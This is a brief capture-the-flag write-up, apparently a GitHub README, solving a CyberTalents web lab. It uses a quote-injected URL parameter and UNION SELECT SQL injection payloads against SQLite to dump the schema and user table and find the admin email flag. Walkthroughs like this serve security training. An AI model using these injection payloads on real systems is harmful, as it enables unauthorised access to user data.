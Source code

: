 # Solve who is admin
### https://cybertalents.com/challenges/web/whoisadmin

#### Try to cause error in php prameter
`http://wcamxwl32pue3e6mk873oykcwzy0j6zqdkgxu639-web.cybertalentslabs.com/shownews.php?id=%27`

![alt text](image-2.png)

The error is for `SQLite` 

#### Try to enumerate shema of SQLite DB with sqlite_master
```sql
UNION select * from sqlite_master
```
![alt text](image-1.png)

We found 2 tables nxf8_news , nxf8_users

```sql
UNION select * from nxf8_users
```

![alt text](image.png)

We found all users 

In description we need to find admin email

#### Review source code
![alt text](image-3.png) 

Try to Bruteforce of all users emails 
*All users emails in [emails](emails.txt) file*

flag is `ryan@secret.org`

#### Resources
[sqlite schema](https://www.sqlite.org/schematab.html)

>Find More on ==> github.com/MedhatHassan 